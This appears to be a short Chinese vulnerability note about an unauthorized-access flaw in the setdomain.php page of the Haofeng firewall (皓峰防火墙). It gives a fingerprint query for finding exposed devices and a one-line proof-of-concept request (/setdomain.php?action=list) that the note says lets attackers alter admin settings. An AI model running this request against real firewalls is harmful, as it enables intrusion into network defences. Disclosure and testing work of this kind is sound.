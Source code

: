 # 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

```
皓峰防火墙
```

## 网络测绘

```
app="皓峰防火墙系统登录"
```

## 漏洞复现

登录页面

![img](images/202202110917093.png)

验证POC

```php
/setdomain.php?action=list
```

![img](images/202202110916092.png)